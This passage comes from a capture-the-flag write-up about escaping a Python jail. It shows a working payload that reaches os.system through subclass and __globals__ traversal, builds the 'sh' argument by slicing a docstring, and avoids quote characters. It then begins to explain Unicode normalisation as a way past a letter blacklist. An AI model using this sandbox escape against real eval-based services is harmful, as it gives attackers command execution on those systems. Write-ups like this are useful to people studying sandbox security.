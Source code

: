 Next, I decided to remove the quotes. Earlier, I mentioned that most objects have a docstring present in `__doc__`- these are a reliable source of characters, and can be accessed without quotes. After analysing some docstrings, I found a relatively short way to obtain the "sh" string using a long step with a slice in the list docstring -

```python
>>> [].__doc__
'Built-in mutable sequence.\n\nIf no argument is given, the constructor creates a new empty list.\nThe argument must be an iterable if specified.'
>>> [].__doc__[17::79]
'sh'
```

But rather than try and construct "system", I resolved to instead turn it into an offset - since `__globals__` is a dictionary, I couldn't access it using a position like an array. But, if I could transform that dictionary into an array I could use the position in the list to access my chosen object without any quotes necessary! I used the `dict.values()` function - this takes a dictionary and returns an array of the values of each item in that dictionary. It was almost perfect - except&#x20;

```python
>>> x = {"a": 1, "b": 2}
>>> x.values()
dict_values([1, 2])
>>> x.values()[1]
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: 'dict_values' object is not subscriptable
```

It doesn't return a plain array, but rather a specific object - luckily, the `dict_values` object can be de-encapsulated using the python spread operator, \*. The spread operator takes an iterable, and passes each of the items in the iterable to the outer function call as separate arguments - combining this with a list constructor \[], I could quickly convert my `dict_values` object into a list, ready for me to index it.

```python
>>> x = {"a": 1, "b": 2}
>>> x.values()
dict_values([1, 2])
>>> [*x.values()]
[1, 2]
```

I can now write my payload as

```python
>>> [*().__class__.__base__.__subclasses__()[132].__init__.__globals__.values()][45]
<built-in function system>
>>> [*().__class__.__base__.__subclasses__()[132].__init__.__globals__.values()][45]([].__doc__[17::79])
$ 
```

This was just barely short enough to pass the length limit at the time when I did the challenge, clocking in at 100 chars out of my 109 allocated. Now only one problem remains - the letters. While I haven't used any strings, I've used letters to access the properties of various objects, and it doesn't seem like there's any way around this - in fact, I'm pretty sure there isn't a way to complete this without accessing object properties like this! So, how do I use letters in my payload, but still use none of the blacklisted characters? Note that the blacklisted characters are specifically the ASCII letters, from the normal character set - the ones I'm writing this writeup in now. Python, however, is very willing to deal with exotic and unusual Unicode dialects - in fact, it will normalise Unicode given to it in some scenarios - including in the interactive console, and in evals! For example, I can call print without using any ASCII letters by replacing them with characters from the Unicode Gothic character set (or indeed any character set which normalises to plain letters), like so
